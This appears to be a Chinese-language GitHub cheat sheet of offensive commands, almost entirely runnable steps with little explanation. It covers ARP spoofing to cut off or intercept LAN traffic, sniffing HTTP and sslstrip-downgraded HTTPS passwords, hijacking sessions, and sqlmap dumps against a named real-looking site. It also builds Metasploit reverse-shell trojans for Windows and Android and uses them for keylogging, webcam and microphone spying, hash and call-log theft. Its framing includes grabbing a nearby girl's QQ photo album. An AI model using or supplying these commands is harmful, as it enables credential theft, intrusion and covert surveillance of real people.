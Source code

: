 <div id="Other.md"></div>

[一、局域网断网攻击](#一)  
[二、获取内网妹子的QQ相册](#二)  
[三、HTTP账号密码获取](#三)  
[四、HTTPS账号密码获取](#四)  
[五、会话劫持-登录别人的百度贴吧](#五)  
[六、会话劫持-一键劫持会话](#六)  
[七、SQLMAP介绍及ASP网站渗透](#七)  
[八、SQLMAP介绍之PHP网站渗透](#八)
[九、SQLMAP介绍之Cookie注入](#九)
[十、metasploit新手知识补全](#十)
[十一、Metasploit之我的远程控制软件](#十一)
[十二、Metasploit之木马文件操作功能](#十二)
[十三、Metasploit之木马系统操作功能](#十三)
[十四、木马的用户操作及摄像头操作](#十四)
[十五、Metasploit之渗透安卓实战](#十五)
[十六、Metasploit之服务器蓝屏攻击](#十六)

==============================


<h5 id="一">一、局域网断网攻击</h5>
arp攻击  
命令格式，如下：  
#arpspoof -i 网卡 -t 目标IP 网关  

arp攻击原理：
目标的IP流量会经过我的网卡，没有从网关出去（因没有配置IP转发）

看局域网中的IP
#fping -asg 192.168.1.0/24

<h5 id="二">二、获取内网妹子的QQ相册</h5>  
IP流量转发
#echo 1 > /proc/sys/net/ipv4/ip_forward

arp欺骗  
命令格式，如下：  
#arpspoof -i 网卡 -t 目标IP 网关 

arp欺骗原理：
目标的IP流量会经过我的网卡，从网关出去
目标机器上arp -a可以看到网关攻击者的IP

获取本机网卡的图
#driftnet -i 网卡

<h5 id="三">三、HTTP账号密码获取</h5>
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ettercap -Tq -i 网卡
-T启动文本模式
-q安静模式
==>返回结果中，可以看到登录页面，用户名和密码

中文用户名需要URL解码，可以百度解码页面

<h5 id="四">四、HTTPS账号密码获取</h5>
#vi /etc/ettercap/etter.conf
去掉下面的注释
# if you use iptables:
   #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   #redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

把HTTPS的链接还原为HTTP
#sslstrip -a -f -k

#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ettercap -Tq -i 网卡

缺点：
容易出现证书错误


<h5 id="五">五、会话劫持-登录别人的百度贴吧</h5>
重新生成抓包后的文件
ferret  
重放流量
hamster
*第一种方法：
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关

#wireshark  （等待目标机器浏览网站，wireshark保存抓包文件）
#ferret -r *.cap
#hamster    (根据显示，修改浏览器代理，并在浏览器中访问http://IP：port)

*第二种方法
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ferret -i 网卡
#hamster


<h5 id="六">六、会话劫持-一键劫持会话</h5>
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
1）使用CookieCadger-1.08.jar工具
2）选择网卡，启动（等待目标机器操作）


<h5 id="七">七、SQLMAP介绍及ASP网站渗透</h5>
windows下的软件：明小子，啊D，NBSI，御剑

#sqlmap -u 网址
-u：检测是否存在SQL注入，返回数据库名字

#sqlmap -u 网址 --tables
--tables：列出所有表名

#sqlmap -u 网址 --columns -T "表名"
--columns：列出所有列名

#sqlmap -u 网址 --dump -C "列名，列名" -T "表名"
--dump：下载数据（如：列名可写为：username,password）


<h5 id="八">八、SQLMAP介绍之PHP网站渗透</h5>
#sqlmap -u 网址 --is-dba
--is-db：检测是否DBA权限，可以写文件

#sqlmap -u 网址 --dbs
--dbs：列出所有数据库

#sqlmap -u 网址 --current-db
--current-db：查找自己的数据库

#sqlmap -u 网址 --tables -D "数据库名"
#sqlmap -u 网址 --columns -T "表名" -D "数据库名"
#sqlmap -u 网址 --dump -C "列名，列名" -T "表名" -D "数据库名"



<h5 id="九">九、SQLMAP介绍之Cookie注入</h5>
使用cookie中转注入方式
网站为http://www.wisefund.com.cn/about.asp?id=56
#sqlmap -u "http://www.wisefund.com.cn/about.asp" --cookie "id=56" --level 2
--cookie：写id的参数，如果是cookie注入，需要把等级提升为level 2

#sqlmap -u "http://www.wisefund.com.cn/about.asp" --tables "表名"--cookie "id=56" --level 2

<h5 id="十">十、metasploit新手知识补全</h5>
#apt-get update && apt-get upgrade && apt-get dist-upgrade && apt-get clean
（使用前更新库）
#apt-get remove metasploit
#apt-get install metasploit

#msfconsole
exploit模块：漏洞利用
payloads：shellcode，漏洞利用后执行的代码

->help      //帮助
->show      //显示所有命令
->clear     //清除
->use exploit/windows/smb/ms08_067_netapi   //漏洞利用模块
->show options  //显示输入参数 
->set RHOST 192.168.1.100
->set payload windows/meterpreter/reverse_tcp       //攻击利用
->set LHOST 192.168.1.101
->exploit       //执行


<h5 id="十一">十一、Metasploit之我的远程控制软件</h5>

木马：控制端---服务端
根据自己的IP（如：19.168.1.103 55555）生成一个木马
#msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 X > test.exe    
//注：kali2.0 msfpayload和msfencode合并成了msfvenom，如下
#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 CMD=test.exe EXITFUNC=thread -f exe -o ./test.exe

#msfconsole
->use exploit/multi/handler     //选择漏洞模块
->set payload windows/meterpreter/reverse_tcp       //选择shellcode
->show options
->set LHOST 192.168.0.103
->set LPORT 55555
->exploit       //等待目标主机双击木马test.exe

-->sysinfo
-->shell


<h5 id="十二">十二、Metasploit之木马文件操作功能</h5>
接着十一节，使用木马
-->help
-->background        //当前会话在后台运行

->sessions -l       //显示会话
->sessions -i 1     //选择进入会话

-->ps       //得到要注入的PID进程
-->migrate 进程ID     //注入进程：木马随时有可能被结束掉

-->run vnc      //查看目标主机远程桌面

-->download 文件名    //下载文件
-->upload 文件名      //上传文件
-->edit 文件名        //编辑文件
-->cat 文件名         //查看文件


<h5 id="十三">十三、Metasploit之木马系统操作功能</h5>

-->arp      //查看arp缓冲表
-->ifconfig
-->getproxy     //获取代理
-->netstat

-->kill     //结束进程
-->ps       //查看进程
-->reg      //注册表
-->shell    //获取shell
-->reboot
-->shutdown
-->sysinfo      //获取电脑信息


<h5 id="十四">十四、Metasploit之木马的用户操作及摄像头操作</h5>

-->enumdesktops        //用户登录数
-->keyscan_dump        //键盘记录-下载
-->keyscan_start       //键盘记录-开始
-->keyscan_stop        键盘记录-结束
-->uictl               //获取键盘鼠标控制权
-->record_mic          //音频录制
（看视频下载安装agt-get install mplayer）
-->webcam_chat         //查看摄像头接口
-->webcam_list         //查看摄像头列表
-->webcam_stream       //摄像头视频获取
-->getsystem           //获取高权限
-->hashdump            //下载hash密文


<h5 id="十五">十五、Metasploit之渗透安卓实战</h5>
根据自己的IP（如：19.168.1.103 55555）生成一个木马
#msfpayload android/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 R > test.apk    
//注：kali2.0 msfpayload和msfencode合并成了msfvenom，如下
#msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 > test.apk

#msfconsole
->use exploit/multi/handler     //选择漏洞模块
->set payload android/meterpreter/reverse_tcp       //选择shellcode
->set LHOST 192.168.0.103
->set LPORT 55555
->exploit

-->search       //如搜索jpg、png、bmp
-->download     //如下载jpg、png、bmp
-->webcam_snmp  //截屏
-->webcam_stream    //摄像头监控
-->check_root   //检测root
-->dump_calllog     //下载电话


<h5 id="十六">十六、Metasploit之服务器蓝屏攻击</h5>



